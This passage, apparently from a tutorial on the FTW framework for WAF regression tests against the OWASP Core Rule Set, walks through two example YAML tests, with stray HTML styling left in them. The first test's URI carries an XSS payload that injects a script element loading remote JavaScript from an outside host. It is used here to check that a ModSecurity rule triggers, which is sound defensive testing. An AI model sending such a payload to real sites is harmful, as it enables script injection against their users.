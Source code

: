 We are not forced to use only only check status codes, FTW supports a modular design that allows for checking various WAFs. The OWASP-CRS regression tests currently only feature support for reading ModSecurity 2.x logs (the location of which is defined in settings.ini). However we are able to supply a regex that is used to check the result of a request (using response\_contains) or if a value is either present or not present in the WAF logs (using log\_contains or no\_log\_contains respectively). An example test to see if an XSS rule triggered is below:

```
<span style="color: #0000ff;"><strong>-</strong></span>
  <strong><span style="color: #0000ff;">test_title:</span></strong> 941100-1
  <span style="color: #0000ff;"><strong>desc:</strong></span> Test as described in http://www.client9.com/article/five-interesting-injection-attacks/
  <span style="color: #0000ff;"><strong>stages:</strong>
 <strong> -</strong>
	<strong>stage:</strong></span>
  	<strong><span style="color: #0000ff;">input:</span></strong>
    	<span style="color: #0000ff;"><strong>dest_addr:</strong> </span>127.0.0.1
    	<strong><span style="color: #0000ff;">method:</span></strong> GET
    	<strong><span style="color: #0000ff;">port:</span></strong> 80
    	<strong><span style="color: #0000ff;">uri:</span></strong> '/demo/xss/xml/vuln.xml.php?input=<script xmlns="http://www.w3.org/1999/xhtml">setTimeout("top.frame2.location=\"javascript:(function () {var x = document.createElement(\\\"script\\\");x.src = \\\"//sdl.me/popup.js?//\\\";document.childNodes\[0\].appendChild(x);}());\"",1000)</script>&//'
    	<span style="color: #0000ff;"><strong>headers:</strong>
      	    <strong>User-Agent:</strong></span> ModSecurity CRS 3 Tests
      	    <span style="color: #0000ff;"><strong>Host:</strong></span> localhost
  	<span style="color: #0000ff;"><strong>output:</strong></span>
    	<strong><span style="color: #0000ff;">log_contains:</span></strong> id "941100" 
```

Some things most people don’t want to do automatically, like content-length calculations. To that end there are some things that are, by default, automagically done for the user, such as encoding and content-length calculations. This makes sending POST request easier as can be seen in the example below:

```
-
  <span style="color: #0000ff;"><strong>test_title:</strong></span> 920170-1
 <span style="color: #0000ff;"><strong> stages:</strong></span>
	<strong><span style="color: #0000ff;">-</span></strong>
  	<span style="color: #0000ff;"><strong>stage:</strong>
    	<strong>input:</strong>
      	        <strong>method:</strong> </span>"POST"
      	        <strong><span style="color: #0000ff;">headers:</span>
          	<span style="color: #0000ff;">User-Agent:</span></strong> "ModSecurity CRS 3 Tests"          	
          	<span style="color: #0000ff;"><strong>Host:</strong></span> "localhost"
          	<span style="color: #0000ff;"><strong>Content-Type:</strong></span> "application/x-www-form-urlencoded"
      	        <span style="color: #0000ff;"><strong>data:</strong></span> "hi=test"
    	<span style="color: #0000ff;"><strong>output:</strong>
      	        <strong>no_log_contains:</strong></span> "id \"920170\""

```
